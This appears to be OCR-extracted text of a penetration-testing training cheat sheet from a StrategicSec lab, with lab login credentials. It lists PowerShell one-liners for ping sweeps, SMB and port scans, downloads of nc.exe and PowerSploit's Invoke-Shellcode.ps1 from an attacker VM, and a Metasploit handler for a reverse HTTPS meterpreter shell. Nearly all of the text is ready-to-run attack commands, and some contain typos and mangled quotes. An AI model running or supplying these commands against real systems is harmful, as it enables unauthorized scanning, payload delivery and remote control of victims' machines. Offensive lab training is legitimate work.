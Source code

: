 from the strategicsec home dir copy nc.exe to /var/www/ folder

user:strategicsec
pass:strategicsec

sudo cp nc.exe. /var/www

cd /var/www
sudo git clone https://github.com/samratashok/nishang
sudo git clone https://github.com/mattifestation/PowerSploit


********************************** Simple Ping Sweep **********************************
powershell -command "50..100 | % {\""192.168.6.$($_): $(Test-Connection -count 1 -comp 192.168.6.$($_) -quiet)\""}"





********************************** Simple Port 445 Sweep **********************************
powershell -command "1..255 | % { echo ((new-object Net.Sockets.TcpClient).Connect(\""192.168.6.$_\"",445)) \""192.168.6.$_\""} 2>$null"






********************************** Simple Port Scan **********************************
powershell -command "1..1024 | % { echo ((new-object Net.Sockets.TcpClient).Connect(\""192.168.6.XX\"",$_)) \""$_ is open\""} 2>$null"






********************************** Download a file **********************************
powershell -command "(New-Object System.Net.WebClient).DownloadFile('http://Strategic-Sec-Ubuntu-VM-IP/nc.exe', 'nc.exe’)"





********************************** Downloading files: Binaries **********************************
powershell -command "(New-ObjectSystem.Net.WebClient).DownloadFile("http://Strategic-Sec-Ubuntu-VM-IP/nc.exe","c:\nc.exe“)" 





********************************** Text file stdout to local file  **********************************
(New-Object System.Net.WebClient).DownloadString("http://Strategic-Sec-Ubuntu-VM-IP/PowerSploit/CodeExecution/Invoke-Shellcode.ps1") | Out-File -Encoding ASCII Invoke-Shellcode.ps1 




********************************** Powershell Download & Execute Reverse Meterpreter **********************************
from ubuntu host browse to metasploit folder 
cd ~/toolz/metasploit/

sudo ./msfconsole
use exploit/multi/handler
set ExitOnSession false
set payload windows/meterpreter/reverse_https
set LHOST Strategic-Sec-Ubuntu-VM-IP
set LPORT 443
set EXITFUNC thread
exploit -j
